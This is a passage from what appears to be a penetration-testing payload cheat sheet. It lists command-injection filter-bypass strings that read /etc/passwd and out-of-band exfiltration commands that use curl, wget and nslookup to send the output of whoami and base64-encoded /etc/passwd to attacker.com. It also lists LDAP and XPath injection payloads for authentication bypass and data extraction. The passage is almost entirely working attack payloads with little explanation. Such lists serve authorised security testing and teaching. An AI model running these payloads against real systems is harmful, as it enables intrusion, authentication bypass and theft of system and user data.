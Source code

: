 #### Advanced bypass techniques

```bash
# Bypass without spaces
{cat,/etc/passwd}
cat</etc/passwd
cat$IFS/etc/passwd
cat${IFS}/etc/passwd
X=$'cat\x20/etc/passwd'&&$X

# Bypass keyword filtering
c''at /etc/passwd
c\at /etc/passwd
c"a"t /etc/passwd
c$@at /etc/passwd

# Using environment variables
$PATH contains /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
${PATH:0:1} = /
${PATH:5:1} = c

# Time-based detection
ping -c 10 127.0.0.1
sleep 10
timeout 10

# Out-of-band exfiltration
nslookup $(whoami).attacker.com
curl http://attacker.com/$(whoami)
wget http://attacker.com/$(cat /etc/passwd | base64)
```

### LDAP Injection

```bash
# Authentication bypass
*
*)(&
*))%00
admin*)(&

# Data extraction
*)(uid=*))(|(uid=*
*)(objectClass=*
```

### XPath Injection

```xpath
# Authentication bypass
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y

# Data extraction
' and count(//*)=COUNT or '1'='2
' and string-length(//user[1]/password)=LENGTH or '1'='2
```
